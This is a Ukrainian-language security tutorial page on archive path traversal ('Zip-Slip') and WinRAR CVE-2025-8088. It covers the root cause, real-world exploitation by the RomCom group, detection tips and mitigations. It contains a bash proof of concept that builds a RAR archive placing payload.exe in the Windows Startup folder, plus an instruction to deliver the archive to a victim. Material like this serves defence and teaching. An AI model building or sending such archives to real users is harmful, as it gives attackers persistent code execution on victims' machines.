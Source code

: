 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Огляд

Багато форматів архівів (ZIP, RAR, TAR, 7-ZIP тощо) дозволяють кожному запису мати свій **внутрішній шлях**. Коли утиліта для розпакування сліпо поважає цей шлях, створене ім'я файлу, що містить `..` або **абсолютний шлях** (наприклад, `C:\Windows\System32\`), буде записано поза вибраною користувачем директорією. Цей клас вразливостей широко відомий як *Zip-Slip* або **перехід по шляху розпакування архіву**.

Наслідки варіюються від перезапису довільних файлів до безпосереднього досягнення **віддаленого виконання коду (RCE)** шляхом розміщення корисного навантаження в **автоматично запускаємому** місці, такому як папка *Startup* Windows.

## Корінна причина

1. Зловмисник створює архів, в якому один або кілька заголовків файлів містять:
* Відносні послідовності переходу (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* Абсолютні шляхи (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Жертва розпаковує архів за допомогою вразливого інструменту, який довіряє вбудованому шляху замість його очищення або примусового розпакування під вибраною директорією.
3. Файл записується в місце, контрольоване зловмисником, і виконується/завантажується наступного разу, коли система або користувач активує цей шлях.

## Приклад з реального життя – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR для Windows (включаючи `rar` / `unrar` CLI, DLL та портативне джерело) не зміг перевірити імена файлів під час розпакування. Зловмисний архів RAR, що містить запис, такий як:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
виявиться **поза** вибраною вихідною директорією і всередині *Startup* папки користувача. Після входу в систему Windows автоматично виконує все, що там присутнє, забезпечуючи *постійний* RCE.

### Створення PoC архіву (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Options used:
* `-ep`  – зберігати шляхи до файлів точно так, як вказано (не **виключати** ведучий `./`).

Доставте `evil.rar` жертві та накажіть їй витягти його за допомогою вразливої версії WinRAR.

### Спостережуване використання в дії

ESET повідомила про кампанії таргетованої фішингової атаки RomCom (Storm-0978/UNC2596), які прикріплювали RAR-архіви, що використовують CVE-2025-8088 для розгортання кастомізованих бекдорів та сприяння операціям з програмами-вимагачами.

## Поради щодо виявлення

* **Статична перевірка** – Перерахуйте записи архіву та позначте будь-які імена, що містять `../`, `..\\`, *абсолютні шляхи* (`C:`) або неканонічні кодування UTF-8/UTF-16.
* **Витяг у пісочниці** – Розпакуйте в одноразовий каталог, використовуючи *безпечний* екстрактор (наприклад, Python’s `patool`, 7-Zip ≥ остання версія, `bsdtar`) та перевірте, щоб результуючі шляхи залишалися в межах каталогу.
* **Моніторинг кінцевих точок** – Сповіщайте про нові виконувані файли, записані в `Startup`/`Run` місця незабаром після відкриття архіву за допомогою WinRAR/7-Zip тощо.

## Пом'якшення та зміцнення

1. **Оновіть екстрактор** – WinRAR 7.13 реалізує належну санітизацію шляхів. Користувачі повинні завантажити його вручну, оскільки WinRAR не має механізму автоматичного оновлення.
2. Витягуйте архіви з опцією **“Ігнорувати шляхи”** (WinRAR: *Витягти → "Не витягувати шляхи"*) коли це можливо.
3. Відкривайте ненадійні архіви **всередині пісочниці** або ВМ.
4. Реалізуйте білу списку додатків та обмежте доступ користувачів до каталогів автозапуску.

## Додаткові постраждалі / історичні випадки

* 2018 – Масове *Zip-Slip* попередження від Snyk, що вплинуло на багато бібліотек Java/Go/JS.
* 2023 – 7-Zip CVE-2023-4011 подібне обходження під час злиття `-ao`.
* Будь-яка кастомна логіка витягання, яка не викликає `PathCanonicalize` / `realpath` перед записом.

## Посилання

- [BleepingComputer – Вразливість нульового дня WinRAR використана для розміщення шкідливого ПЗ під час витягання архівів](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Зміни](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Опис вразливості Zip Slip](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
